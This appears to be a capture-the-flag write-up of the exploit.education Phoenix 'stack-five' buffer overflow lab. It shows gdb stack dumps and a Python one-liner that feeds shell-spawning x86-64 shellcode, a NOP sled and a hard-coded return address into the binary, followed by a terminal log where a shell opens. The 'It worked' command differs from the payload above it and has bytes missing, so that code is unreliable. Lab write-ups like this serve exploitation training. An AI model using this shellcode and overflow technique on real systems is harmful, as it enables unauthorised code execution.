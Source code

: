 ```gdb

(gdb) x/50x $rsp
0x7fffffffe5f0: 0x42424241      0x00004342      0x00400620      0x00000000
0x7fffffffe600: 0x004005a4      0x00000000      0x00000000      0x00000000
0x7fffffffe610: 0x00000000      0x00000000      0xf7db6dde      0x00007fff
0x7fffffffe620: 0x004005a4      0x00000000      0x00b10028      0x00000000
0x7fffffffe630: 0x00000000      0x00000000      0xf7db6b1e      0x00007fff
0x7fffffffe640: 0xf7ffb300      0x00007fff      0x00000000      0x0a000000
0x7fffffffe650: 0xf7ffb300      0x00007fff      0xf7db9934      0x00007fff
0x7fffffffe660: 0xffffe6e8      0x00007fff      0xffffe690      0x00007fff
0x7fffffffe670: 0xffffe690      0x00007fff      0x004005c7      0x00000000
```

On the printing of `rsp` we see that the address of the buffer starts at `0x7fffffffe5f0`. We changed the return address to the above address on our exploit:  
```
python -c "print '\x48\x31\xc0\x50\x5f\xb0\x03\x0f\x05\x50\x48\xbf\x2f\x64\x65\x76\x2f\x74\x74\x79\x57\x54\x5f\x50\x5e\x66\xbe\x02\x27\xb0\x02\x0f\x05\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x50\x57\x54\x5e\x48\x99\xb0\x3b\x0f\x05' + '\x90'*79 + '\xf0\xe5\xff\xff\xff\x7f'" | ./stack-five
```

It worked:  
```
user@phoenix-amd64:/opt/phoenix/amd64$ python -c "print '\x48\x31\xc0\x50\x5f\xb0\x03\x0f\x05\x50\x48\xbf\x2f\x64\x65\x76x54\x5f\x50\x5e\x66\xbe\x02\x27\xb0\x02\x0f\x05\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x50\x57\x54\x5e\x5' + '\x90'*79 + '\xf0\xe5\xff\xff\xff\x7f'" | ./stack-five
Welcome to phoenix/stack-five, brought to you by https://exploit.education
$ whoami
phoenix-amd64-stack-five
```





